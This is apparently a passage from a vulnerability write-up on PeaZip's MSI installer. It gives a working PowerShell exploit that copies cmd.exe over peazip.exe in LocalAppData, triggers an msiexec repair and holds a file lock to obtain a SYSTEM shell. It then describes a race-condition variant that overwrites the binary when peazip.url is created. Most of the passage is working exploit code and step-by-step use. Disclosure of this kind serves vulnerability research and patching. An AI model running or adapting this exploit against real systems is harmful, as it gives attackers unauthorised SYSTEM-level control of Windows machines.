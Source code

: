 ```
[byte[]] $exeBytes = (Get-Content -Encoding Byte -Path $env:ComSpec) -split ' '

# Start MSI repair
msiexec.exe /fa $msi.FullName

# Copy binary to dir
$exe = "peazip.exe"
$dir = $env:LOCALAPPDATA + "\PeaZip"
New-Item $dir -ItemType Directory -Force | Out-Null
"Created directory $dir"
$exePath = $dir + "\" + $exe
[System.IO.File]::WriteAllBytes($exePath, $exeBytes)
$fileStream = [System.IO.File]::Open($exePath, "Open", "Read", "Read")
"Written binary $exePath"

"Starting MSI installer. Follow:"
"1. I accept the agreement"
"2. Custom installation"
"3. Set directory: $dir"
"4. Yes to use already existing directory"
"5. Next> Next> Next> Next> Next> Install"
"6. Do not close the applications"
"7. Ignore"
"8. Shell poppin'"

Read-Host "8. Press return after you get shell (to release file lock)."
$fileStream.Close()
```

**Method 2b - no interaction required, with race condition**
Method 2b uses the same `peazip.exe` binary but with a race condition. Here the race condition waits for the file `peazip.url` to be created before it overwrites `peazip.exe`, as this is after the last write to `peazip.exe` but before System execution of `peazip.exe`. This will avoid the Method 2a file lock errors.

A script is run which deletes `peazip.url` and starts monitoring for `peazip.url` creation:

![](cve2-walkthrough-b1.png)

Creation of `peazip.url` is detected and the malicious `peazip.exe` is written and locked:

![](cve2-walkthrough-b2.png)
